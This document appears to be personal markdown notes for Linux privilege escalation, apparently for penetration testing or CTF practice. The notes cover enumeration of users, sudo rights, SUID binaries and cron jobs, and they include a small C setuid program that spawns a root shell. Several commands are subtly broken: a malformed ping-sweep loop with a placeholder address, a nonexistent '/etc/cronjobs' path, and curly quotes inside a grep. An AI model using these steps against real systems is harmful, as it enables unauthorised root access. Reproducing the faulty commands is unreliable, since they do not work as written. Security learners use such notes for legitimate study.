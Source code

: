   
# Enum  
## Quick Enum
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow   
    sudo -l  
    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "
## Scripts
run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 
## Checklists
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  
- [ ] Sudo binaries?? 
Scripts running as cron jobs you can write to?? 
SUID binaries?? 
Services running as root??
Passwords / config files??
Is the kernel vulnerable??
# Exploits
## Cronjobs    
look for scripts you can write to or exploit using [gtfobins](https://gtfobins.github.io/) 

    cat /etc/cronjobs   
    crontab -l    
## SUID Binaries
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null               
    ps aux | grep “^root”                   
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
# File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    

# Resources
## Cheat Sheets 
[g0tmi1k Linux Priv Esc Checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  

## Learn More
